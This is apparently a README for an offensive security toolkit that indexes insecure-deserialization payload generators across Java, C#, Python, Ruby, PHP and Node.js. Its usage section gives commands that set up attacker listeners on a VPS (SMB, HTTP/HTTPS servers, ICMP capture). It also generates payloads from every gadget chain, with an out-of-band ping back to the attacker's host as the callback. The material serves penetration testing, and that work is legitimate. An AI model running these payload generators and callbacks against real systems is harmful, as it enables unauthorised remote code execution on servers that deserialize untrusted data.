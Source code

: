 # INSECURE DESERIALIZATION SCRIPTS
This collection contains various tools for generating serialized payloads in different programming languages.

## TOOLS
* [Java - ysoserial.jar](https://github.com/frohoff/ysoserial)
    * [jargadgets.txt](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/jargadgets.txt)
* [C# - ysoserial.exe](https://github.com/pwntester/ysoserial.net/)
    * :diamonds:[RunYsoserial.ps1](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/RunYsoserial.ps1) - Wrapper around ysoserial.net using all possible gadgets and formatters.
    * [netgadgets.txt](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/netgadgets.txt)
    * [netformatters.txt](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/netformatters.txt)
* [Python - python_deser.py](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/python_deser.py)
    * (Modified [Peas](https://github.com/j0lt-github/python-deserialization-attack-payload-generator))
* [Ruby - ruby_deser_vx.rb](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/ruby_deser_v2.rb)
    * ([deser-ruby](https://github.com/klezVirus/deser-ruby) is an alternative tool for Ruby v3 which also supports YAML generation)
* [PHP - phpggc](https://github.com/ambionics/phpggc)
    * [php_deser.sh](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/php_deser.sh) - Wrapper around phpggc that generates payloads from all possible gadgets in base64 format. 
    * [phpgadgets.txt](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/phpgadgets.txt)
* [Node.js - deser-node.js](https://github.com/klezVirus/deser-node)
    * With deletec console.log() for clean output.
* :diamonds:[crimson_deser.sh](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/crimson_deser.sh) - Wrapper around all generators except .NET

## USAGE
#### ON VPS
```bash
# TERMINAL 1
echo 123 > fake.dll
sudo impacket-smbserver deser . -smb2support
# TERMINAL 2
updog -p 443 --ssl 2>&1 | tee -a https.logs
# TERMINAL 3
python3 -m http.server 80 2>&1 | tee -a http.logs
# TERMINAL 4
sudo tcpdump -i any icmp -ttttt -w - -U | tee icmp.logs | tcpdump -r -
```
#### ON WINDOWS
```powershell
# In ysoserial directory
.\RunYsoserial.ps1 -collab 'ip_or_domain_here' -outputFormat 'base64' -outputFile 'deser.txt'
.\RunYsoserial.ps1 -collab 'ip_or_domain_here' -outputFormat 'hex' -outputFile 'deser.txt'
```

#### ON UNIX
```
./crimson_deser.sh "ping VPS_IP" "VPS_IP" "DOMAIN_COLLAB"
```

